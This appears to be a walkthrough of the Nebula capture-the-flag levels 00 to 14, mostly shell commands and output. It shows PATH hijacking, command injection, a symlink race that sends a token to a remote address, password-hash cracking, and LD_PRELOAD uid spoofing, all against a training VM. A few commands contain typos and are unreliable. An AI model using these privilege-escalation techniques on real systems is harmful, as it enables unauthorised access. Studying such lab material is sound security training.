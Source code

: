 ##Nebula##

#Level 00

requires the user to find a setuid file.  find / -perm +6000 -type f -exec ls -ldh {} \; > files.txt and cat files.txt | grep flag00 gives us two files, /bin/.../flag00 and /rofs/bin/.../flag00

#Level 01

$ export PATH=~:$PATH
$ /bin/echo "whoami; getflag" > ~/echo
$ chmod a+x ~/echo
$ /home/flag01/flag01

#Level 02

$ export USER="hi echoing; whoami; getflag"
$ /home/flag02/flag02
about to call system("/bin/echo hi echoing; whoami; getflag is cool")
hi echoing
flag02
You have successfully executed getflag on target account

#Level 03

$ cd /home/flag03
$ ls
writable.d   writable.sh

$ # ./writable.sh runs a for loop with "bash -x $i" for i in writable.d/*
$ echo "whoami" > /tmp/log; getflag >> /tmp/log" > ./writable.d/foo
$ # Wait a few minutes for the cron job
$ cat /tmp/log
flag03
You have successfully executed getflag on target account

#Level 04

$ cd /tmp/
$ ln -s /home/flag04/ ./foo
$ cd /home/flag04/
$ ./flag04 /tmp/foo


#Level 05

$ cd /home/flag05
$ ls -la
$ `/home/flag05` contains `.ssh` (unreadable) and `.backup` (execute access!) directories
$ ls .backup
backup-19072011.tgz
$ # tar tzf backup-19072011.tgz shows that it contains the .ssh directory
$ cd .backup
$ tar xzf backup-19072011.tgz -C ~
$ cd ~/.ssh
$ ssh -i id_rsa flag05@localhost
flag05@nebula:~$ getflag

#Level 06

$ cat /etc/passwd/ |  grep flag06
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh

$ cd ~
$ wget http://www.openwall.com/john/g/john-1.7.9.tar.gz
$ tar xzf john-1.7.9.tar.gz
$ cd john-1.7.9.tar.gz/src
$ make clean linux-x86-sse2
$ cd ../run
$ ./john /etc/passwd
Loaded 1 password hash (Traditional DES [128/128 BS SSE2])
hello             (flag06)
...
$ su flag06
Password:
sh-4.2$ getflag

#Level 07

$ cd /home/flag07
$ perl index.cgi Host="google.com | getflag"
$ # Yields a "getflag is executing on a non-flag account, this doesn't count"
$ cat thttpd.conf | grep flag07
dir=/home/flag07
user=flag07
$ ps aux | grep thttpd
$ # Interestingly, two thttpd web server instances are running on flag07 and flag16
$ cat thttpd.conf | grep port=
port=7007
$ cd ~ && wget localhost:7007/index.cgi --post-data="Host=google.com | getflag"
$ cat index.cgi
>     html<head><title>Ping results
>     </title></head><body><pre>You have successfully executed getflag on a target accoun thtml



#Level 08

$ cd /home/flag08
$ # -X prints in ASCII; -q removes extraneous information, -r points to a file
$ tcpdump -X -q -r capture.pcap | less
$ # -c prints to stdout, -r points to a file
$ tcpflow -c -r capture.pcap | less
$ su flag08
Password:backd00Rmate
sh-4.2$ getflag


#Level 09

$ cd ~
$ echo "[email {\$use_me(getflag)}]" > foo
$ /home/flag09/flag09 ./foo exec
[error]
You have successfully executed getflag on target account


#Level 10

#!/bin/bash

#!/bin/bash -x
 # upload_file.sh
rm ~/foo
for i in `seq 10000`; do echo "placeholder" >> ~/foo; done
/home/flag10/flag10 ~/foo 192.168.1.6
sleep 0.0001
rm ~/foo; ln -s /home/flag10/token ~/foo

separate run
while true; do ./upload_file.sh; done

#Level 11


$ cd ~
$ echo "Content-Length: 1\n\c" > ./foo
$ echo "getflag; whoami" > ./b
$ export PATH=~:$PATH
$ /home/flag11/flag11 < ~/foo
sh: $'b\200\263': command not found
$ /home/flag11/flag11 < ~/foo
sh: $'b\300\241': command not found
$ /home/flag11/flag11 < ~/foo
You have successfully executed getflag on a target account
flag11


#Level 12


$ nc 127.0.0.1 50001
Password: $(getflag), which is $(whoami) > ~/getflag.log
Better luck next time
$ cat /home/flag12/getflag.log
You have successfully executed getflag on a target account, which is flag12

prog = io.popen("echo "..password.." | sha1sum", "r")


#Level 13

> // custom_uid.c
> #include systypes.h
> 
> uid_t getuid()
> {
> 	return 1000;
> }

$ # Create a shared library
$ cd ~
$ gcc -fPIC -g -c custom_uid.c
$ gcc -shared -W1,-soname,uid.so -o uid.so custom_uid.o -lc
$ ls *.so
uid.so


$ # Preload the shared library
$ export LD_PRELOAD=./uid.so
$ cp /home/flag13/flag13 ~
$ ldd flag13 | grep uid.so
./uid.so (0x001c3000)
$ chmod a+x ~/flag13
$ ~/flag13
your token is b705702b-76a8-42b0-8844-3adabbe5ac58
$ su flag13
sh-4.2$ getflag
You have successfully executed getflag on a target account


$ echo $UID
1014
$ printf '%x\n' 1014 # Our uid in hex
3f6
$ printf '%x\n' 1000 # FAKEUID in hex
3e8
$ objdump -d flag13 | grep 3e8
80484f4:		3d e8 03 00 00		cmp 	__$0x3e8__,%eax
…
$ cp /home/flag13/flag13 ~
$ vim ~/flag13
$ # … Make the substitution described below #

$ ~/flag13
your token is b705702b-76a8-42b0-8844-3adabbe5ac58

#Level 14

> #!/bin/bash
> # try.sh
> # A helper function for pattern finding
> try()
> {
> 	echo "$@" | /home/flag14/flag14 -e; echo""
> }

$ source ~/try.sh
$ try 1; try @; try a
1
@
a
$ try 0231 # 0 - 0 = 0 | 3 - 2 = 1 | 5 - 3 = 2 |  4 - 1 = 3
0354

> // decrypt.c
> #include <stdio.h>
> #include <string.h>
> 
> int main (int argc, char*argv[])
> {
> 	for (int i = 0; i < strlen(argv[1]); i++)
> 		printf("%c", argv[1][i] - i);
> 	printf("\n");
> }

$ gcc -std=c99 -o decrypt decrypt.c
$ cat /home/flag14/token
857:g67?5ABBo:BtDA?tIvLDKL{MQPSRQWW.
$ ./decrypt $(cat /home/flag14/token)
8457c118-887c-4e40-a5a6-33a25353165
$ su flag14
Password:
sh4.2$ getflag
You have successfully executed getflag on a target account